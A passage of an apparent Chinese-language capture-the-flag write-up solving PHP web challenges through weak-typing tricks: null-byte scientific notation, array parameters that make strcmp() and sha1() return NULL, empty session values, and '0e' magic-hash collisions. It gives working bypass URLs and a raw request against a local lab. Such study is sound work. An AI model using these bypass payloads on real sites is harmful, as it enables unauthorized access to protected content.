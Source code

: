 ```php
strlen($_GET['password']) < 8 && $_GET['password'] > 9999999
```
这里要求password转换为整形之后要大于9999999，所以想到了科学计数法，最终提交：
```
web4.php?password=9e9%00*-*
```

### web5 

这个题目主要考察ctrcmp()函数。
当strcmp()函数参数是数组的时候,函数执行出错，返回NULL
NULL和0做==比较的时候是True。 
所以传入
```
/web5.php?a[]= 
```
就可以拿到flag。

### web6 

此题目考查SESSION和未定义变量引起的弱类型。 

当把sessionid设置为空的时候,$_SESSION['password']是为定义的，所以password传入空字符串，就可以绕过了。
```
GET /shiyanba/web6.php?password= HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.12; rv:54.0) Gecko/20100101 Firefox/54.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```
就可以拿到flag了。

### web7 

此题目有两种做法。
1. password和name都是数组，这样经过sha1()函数，两者都是NULL，就获取到了flag。
```
http://127.0.0.1/shiyanba/web7.php?name[]=1&password[]=3
```
2. 使用oe开头后面全是数字的字符串。

```
sha1('aaroZmOk') =>0e66507019969427134894567494305185566735
sha1('aaK1STfY') =>0e76658526655756207688271159624026011393
```
所以:
```
http://127.0.0.1/shiyanba/web7.php?name=aaroZmOk&password=aaK1STfY
```
